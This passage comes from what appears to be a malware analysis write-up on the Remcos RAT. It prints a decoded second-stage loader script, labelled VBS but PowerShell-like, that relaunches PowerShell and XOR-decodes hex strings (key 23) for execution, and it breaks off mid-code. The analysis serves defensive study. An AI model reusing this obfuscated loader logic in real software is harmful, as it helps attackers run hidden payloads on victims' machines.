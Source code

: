 <div style="text-align: center;">
    <img src="/assets/images/2024-05-30-MalwareAnalysis_RemcosRAT/2nd stage vbs decoded xor.PNG" alt="Screenshot1" />
    <br>
    <sub>Figure 12: Decoding of every XOR encoded</sub>
</div>
<br>

# VBS After Decoding & Cleaning

```vbs
$Woadman='\syswow64\WindowsPowerShell\v1.0\powershell.exe '
$Hogg='powershell.exe '
$Skamfilendes ='exit '
Smedemestres ('$global:Recants=$env:windir + $Woadman ') 
Smedemestres ('$global:Desinficeringsmidlerne = ((gwmi win32_process -F ProcessId=${PID}).CommandLine) -split [char]34 ')
Smedemestres ('$global:gammoned = $Desinficeringsmidlerne[$Desinficeringsmidlerne.count-2] ')
Smedemestres ('$global:Forbigangen = ([IntPtr]::size -eq 8) ')
Smedemestres ('if (!$Forbigangen){ $global:Recants = $Hogg} ')
Smedemestres ('$global:Turboladedes=($Understimuleret -or $Forbigangen) ')
if($Turboladedes){ 
&$Recants $gammoned
Smedemestres $Skamfilendes
}
function Skinproblemer136 ($Gutsily,$Mdeaftalerne) {

Smedemestres ('$Gutsily -bxor $Mdeaftalerne ')

}

Function Irvings27 ($vagtposten, $Herpetolog = 0){

Smedemestres ('$global:Blomsterkoste = New-Object byte[] ($vagtposten.Length / 2) $global:Blomsterkoste = New-Object byte[] ($vagtposten.Length / 2) ')

For($Milvine=0; $Milvine -lt $vagtposten.Length; $Milvine+=2){

Smedemestres ('$Blomsterkoste[$Milvine/2] = [convert]::ToByte($vagtposten.Substring($Milvine, 2), 16) ')
$Blomsterkoste[$Milvine/2] = Skinproblemer136 $Blomsterkoste[$Milvine/2] 23
}
Smedemestres ('$global:Pigeonholes=[String][System.Text.Encoding]::ASCII.GetString($Blomsterkoste) ')
if ($Herpetolog) { 
Smedemestres $Pigeonholes
}else {
```
